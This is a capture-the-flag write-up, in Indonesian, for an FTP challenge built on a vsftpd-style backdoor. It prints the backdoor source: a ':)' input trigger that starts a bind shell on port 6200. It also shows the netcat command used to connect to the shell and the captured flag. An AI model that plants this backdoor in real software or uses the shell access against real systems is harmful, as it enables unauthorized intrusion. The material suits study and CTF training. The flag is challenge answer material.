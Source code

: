 ```
I'm using the very secure ftp daemon for my projects:
ftp vsftp.uni.hctf.fun 2121
Still someone managed to get my secret file :(.
Maybe this has something to do with it...
```

Di berikan service FTP dan potongan source di https://pastebin.com/raw/AetT9sS5 dan fokus ke bagian :
```
{
       return 1;
     }
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
   }
   return 0;
 }
```
jika dalam input terdapat karakter dari **0x3a** dan di ikuti dengan **0x29** maka program akan memanggil fungsi ```vsf_sysutil_extra();``` yang isinya adalah :
```
 #include <sys/param.h>
 #include <sys/uio.h>
-#include <netinet/in.h>
-#include <netdb.h>
-#include <string.h>
-#include <stdlib.h>
+
 #include <sys/prctl.h>
 #include <signal.h>
 
@@ -220,7 +217,7 @@
 static int s_proctitle_inited = 0;
 static char* s_p_proctitle = 0;
 #endif
-int vsf_sysutil_extra();
+
 #ifndef VSF_SYSDEP_HAVE_MAP_ANON
 #include <sys/types.h>
 #include <sys/stat.h>
@@ -843,30 +840,6 @@
   }
 }
 
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1); 
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  { 
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0); 
-  } 
-}
```
di sini kita akan di konekkan ke port 6200 dan kita akan di beri akses shell, jadi ini adalah sebuah backdoor
karena sudah tau kita akan di arahkan ke port 6200 dan mendapatkan shell, kita bisa langsung konek menggunakan netcat dan eksekusi command
```
$ nc vsftp.uni.hctf.fun 6200
cat flag.txt
flag{Pr3tty_Obvi0us_B4ckd00r}
```
<h3>Flag : flag{Pr3tty_Obvi0us_B4ckd00r}</h3>
